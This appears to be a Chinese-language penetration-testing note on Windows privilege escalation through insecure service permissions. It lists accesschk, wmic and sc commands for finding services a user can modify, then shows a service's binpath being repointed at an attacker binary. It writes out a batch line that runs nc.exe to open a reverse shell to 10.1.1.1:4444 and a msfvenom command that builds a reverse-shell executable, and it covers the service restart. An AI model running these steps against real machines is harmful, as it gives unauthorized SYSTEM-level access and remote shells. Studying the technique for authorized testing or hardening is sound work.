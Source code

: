 # 不安全的服务权限


# MSF 模块
Metasploit Module: exploit/windows/local/service_permissions


由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它。

## 方法一：accesschk

`accesschk.exe` 是一款微软官方开发，用于检测特定用户或组对资源（包括文件、目录、注册表键、全局对象和Windows服务）的访问权限的工具。

### 安装和使用
- 下载地址：https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
- 介绍文档：https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk


`AccessChk`工具还可以用来查找用户可以修改的服务：

```
C:\Users\user\Desktop>accesschk.exe -uwcqv "user" * 
accesschk.exe -uwcqv "user" *

Accesschk v6.02 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

RW Vulnerable Service
 SERVICE_ALL_ACCESS

C:\Users\user\Desktop>
```
如果成功找到目标服务，则可以尝试利用。

## 方法二：sc 命令

先使用vmic 查询所有正在运行的服务：

```
wmic service where started=true get name, startname
```

然后使用 `sc` 命令查询对每个服务是否有控制权：

```
C:\Users\user\Desktop>sc stop "Service"
sc stop Service

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530
```
如果能够成功关闭服务，说明可能能够利用。

接下来我们需要查看是否能修改服务的 `binpath`，如果能修改则可以利用它：

```
C:\Users\user\Desktop>sc config "Service" binpath="C:\malicious.exe"
sc config "Vulnerable" binpath="C:\malicious.exe"
[SC] ChangeServiceConfig SUCCESS

```

其中 `malicious.exe` 可以使用简单的 `xx.bat` 文件，也可以使用 `msfvenom` 来生成。

我们先尝试简单的 bat 文件：

```
echo c:\windows\temp\nc.exe 10.1.1.1 4444 -e cmd > reverse.bat
```
然后将 binpath 设置为 reverse.bat 路径。

**如果遇见报错，或反弹 shell 成功后又快速断开，那么可以再尝试 msfvenom。**

例如：

```
msfvenom -p windows/shell_reverse_tcp lhost=10.1.1.1 lport=4444 -f exe --platform windows >reverse.exe
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/31DF2A64-01FF-40B1-94F2-CBADBAC17DE5.png)

修改后，必须重新启动服务才能执行二进制文件。

可以手动重启服务:

```
sc stop "VulnerableService"
sc start "VulnerableService"

```

启动时可能会抛出错误消息：

```
C:\Users\user\Desktop>sc start "ServiceName"
sc start "ServiceName"
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

当Windows执行服务时，它们应与Windows服务控制管理器通信。如果不这样做，SCM就会杀死这个进程。通过使用执行自动迁移到新进程的payload，手动迁移进程，或者在执行后将服务的bin路径设置回原始服务二进制文件，可以解决这个问题。


# Reference

- `https://xz.aliyun.com/t/2519`
